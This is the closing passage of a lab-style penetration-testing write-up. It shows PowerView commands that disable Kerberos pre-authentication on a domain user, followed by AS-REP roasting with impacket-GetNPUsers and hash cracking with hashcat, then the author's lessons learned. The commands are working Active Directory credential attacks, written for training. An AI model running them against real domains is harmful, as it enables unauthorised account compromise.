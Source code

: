 -   **Import powerview**:
    -   `. .\PowerView.ps1`
    -   {{< figure src="/ox-hugo/2024-11-12-071002_.png" >}}

-   **Set the Pre-Auth to be true PowerView**:
    -   `Set-DomainObject -Identity ethan -Set @{'userAccountControl' = 4194304}`
    -   +Note+: Setting userAccountControl to 4194304 disables Pre-Authentication (equivalent to DoesNotRequirePreAuth).
    -   {{< figure src="/ox-hugo/2024-11-12-072652_.png" >}}

-   **Verify it worked**:
    -   `Get-DomainUser -UACFilter DONT_REQ_PREAUTH`
    -   {{< figure src="/ox-hugo/2024-11-12-072711_.png" >}}
    -   As we can see it worked.


### AS-REP roasting Ethan using Impacket-GetNPUsers: {#as-rep-roasting-ethan-using-impacket-getnpusers}

-   `impacket-GetNPUsers $domain/ethan -dc-ip $box -no-pass -format hashcat -outputfile asrep.txt`
-   {{< figure src="/ox-hugo/2024-11-12-073830_.png" >}}
-   +Note+: For some reason it threw some errors, despite having the time set &amp; also did not save the hash to a file, so I have to save to a file manually.


### Cracking Ethans AS-REP Hash Using Hashcat: {#cracking-ethans-as-rep-hash-using-hashcat}

-   This will still gives us the same password etc as we have seen before it's just a different method for doing so.
-   `hashcat -m 18200 AS-REP.txt ~/Wordlists/rockyou.txt`
-   {{< figure src="/ox-hugo/2024-11-12-074515_.png" >}}


## Lessons Learned: {#lessons-learned}


### What did I learn? {#what-did-i-learn}

1.  I learned that no matter how much I try and convince myself it's true unless I have write properties on an object I do not.
2.  I learned about cracking password safe files, I have never done that before so it was good to do.


### What silly mistakes did I make? {#what-silly-mistakes-did-i-make}

1.  See note 1 above.
2.  Standard, reset box and didn't update my `/etc/hosts` and was like "wow that is strange behaviour it must be intended, until I realised I was just stupid"


## Sign off: {#sign-off}

Remember, folks as always: with great power comes great pwnage. Use this knowledge wisely, and always stay on the right side of the law!

Until next time, hack the planet!

&#x2013; Bloodstiller

&#x2013; Get in touch bloodstiller at proton dot me


